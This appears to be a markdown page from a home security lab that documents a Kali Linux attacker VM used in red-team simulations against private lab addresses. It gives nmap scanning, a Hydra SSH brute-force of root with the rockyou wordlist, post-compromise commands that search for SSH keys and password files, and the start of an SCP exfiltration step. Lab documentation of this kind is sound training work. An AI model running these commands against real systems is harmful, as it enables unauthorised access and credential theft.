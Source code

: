 # 📂 kali-attacker.md  
### 💀 Kali Linux (Attack Machine)

## 🔧 VM Specs
- OS: Kali Linux 2024.2
- IP: `10.0.0.103`
- Tools Installed: Nmap, Hydra, Netcat, Metasploit

--

## 🧪 Sample Attacks
⚔️ Operations & Tools Used
This attacker VM simulates realistic Red Team behavior including reconnaissance, brute-force attacks, privilege escalation, phishing setup, reverse shells, and data exfiltration.
🔧 Preinstalled/Used Tools:
•	nmap
•	hydra
•	netcat
•	apache2
•	git
•	curl
•	scp
•	ssh
•	rockyou.txt (wordlist)

--

🔍 Reconnaissance & Enumeration
Basic Network Recon:
nmap -sS -Pn -sV 10.0.0.0/24
•	-sS: Syn scan (TCP)
•	-Pn: Disable host discovery
•	-sV: Detect service versions

--

🔐 SSH Brute-Force with Hydra
Unzip and use rockyou wordlist:
gunzip /usr/share/wordlists/rockyou.txt.gz
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.0.0.8
Success Output Example:
[22] [ssh] host: 10.0.0.8  Login: root  Password: <password>
Login:
ssh root@10.0.0.8

--

🧠 Post-Compromise Enumeration
cat /etc/os-release     # OS Info
hostname                # Hostname
ip a                    # IP Address
netstat -tuln           # Listening Ports (may need: sudo apt install net-tools)
ps aux / top            # Running processes
ls -la /home            # User directories
ls -la /etc             # Config files
ls -la ~/.ssh/          # SSH keys
find / -name "password" 2>/dev/null
Insight:
Discovered SMTP service on port 1025 and HTTP interface on port 8025. Indicates MailHog or email simulation service is running.
Check messages via:
curl http://10.0.0.8:8025/api/v2/messages

--

🧪 File Exfiltration via SCP
🧤 Goal:
Exfiltrate a file named secrets.txt from the victim to the attacker's Kali box using SSH + SCP.
